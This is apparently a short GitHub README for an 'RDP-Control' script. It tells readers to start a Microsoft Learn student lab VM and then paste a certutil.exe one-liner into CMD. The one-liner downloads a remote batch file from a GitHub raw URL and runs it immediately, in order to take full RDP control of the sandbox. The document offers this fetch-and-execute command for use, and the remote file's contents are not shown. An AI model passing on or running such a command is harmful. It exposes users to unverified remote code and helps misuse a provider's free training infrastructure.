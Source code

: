 # RDP-Control

T34M 4N4MU5
CODE BY 4LT41R
CMD-SCRYPT-RDP

This Script for Full-Access Control Your RDP-VPS

# First
you must go to link https://docs.microsoft.com/en-us/learn/modules/extend-elements-finance-operations/4-exercise  
  
and create account microsoft and create VM student
   
and Lunch VM
  
# Second 
You Nedd open CMD And Copy " certutil.exe -urlcache -split -f https://raw.githubusercontent.com/mrX04/lab2rdp/master/lab6cfree.bat && lab6cfree.bat " And Past on CMD And Click ENTER

